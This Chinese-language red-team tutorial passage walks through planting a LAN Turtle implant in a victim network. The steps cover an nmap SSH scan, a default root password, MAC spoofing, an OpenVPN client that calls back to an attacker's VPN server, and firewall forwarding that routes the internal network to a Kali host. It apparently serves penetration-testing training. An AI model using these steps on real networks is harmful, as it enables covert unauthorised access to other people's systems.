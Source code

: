 * 插入 USB 并且自动连入网络
* nmap 扫描本地 22 端口
    * nmap x.x.x.x/24 -p22 -T5 --open
* 通过 SSH 连接 root 用户（root@[ip]），密码为 sh3llz
* 更新你的 LAN TURTLE
* 更改 MAC 地址很重要。LAN Turtle 使用类似制造商的 MAC 地址，所以你要做些修改来确保你看起来像个随机的设备：
    * 更改你的 MAC 地址
* 安装 OpenVPN :
    * 选择 Modules -> Select -> Configure -> Directory ，然后点击确定
    * 安装 OpenVPN
* 设置你的 OpenVPN 配置文件：
    * 返回 Modules-> OpenVPN -> configure->粘贴所有来自 turtle.opvn 的内容并保存
* 我们还希望确保 LAN Turtle OpenVPN 服务器在服务器启动时自动开启运行：
    * 选择 Modules-> OpenVPN ->Enable
* 最后，我们需要修改 LAN Turtle 上的防火墙规则：
    * 退出 Turtle 菜单并编辑防火墙规则(使用 nano 文本编辑器编辑 /etc/config/firewall 文件)
        * nano /etc/config/firewall
    * 接着，在文件中修改 vpn 这一部分的设置
        * 确保“option forward”设置为“ACCEPT”
        * 添加以下配置转发规则：
* 配置转发
    * option src    wan
    * option dest   lan
* 配置转发
    * option src    vpn
    * option dest   wan
* 配置转发
    * option src    wan
    * option dest   vpn
* 重新回到 Turtle 菜单 -> Modules -> openvpn -> start
* 上面的操作应该会启动我们的 Turtle 上的 OpenVPN 客户端。为了确保设置生效，回到我们的 OpenVPN AS 服务器并检查连接。

我们现在已经配置了 LAN Turtle，这样每当它连接到一个网络时，它就会回连到我们的 VPN 服务器。并且我们可以通过 SSH 连进 LAN Turtle 了。让我们通过一个例子来感受一下这个过程：

从 Kali 攻击主机访问 VPN 服务器：
* openvpn -config ./redteam.ovpn
* 获取对方所在网络的IP地址，以便从我们的 redteam vpn 传输所有流量。
    * SSH 进入 LAN Turtle
    * 退出 Turtle 菜单，获取受害者网络内部接口（ifconfig）的 IP 地址。根据 IP 和 BCAST（广播地址）计算出 IP 范围。在我们的示例中，Turtle 所在的网络是 10.100.100.0/24

* 最后，开启流量转发：
    * 返回 OpenVPN AS并编辑 `lanturtle` 这个用户
    * 用户权限（User Permissions）页面->搜索用户名 lanturtle->显示
    * 将 VPN 网关编辑为“是”并添加内部范围（例如 10.100.100.0/24）
    * 保存并更新
* 通过 LAN Turtle 上的 SSH 连接，使用 `reboot` 命令重启
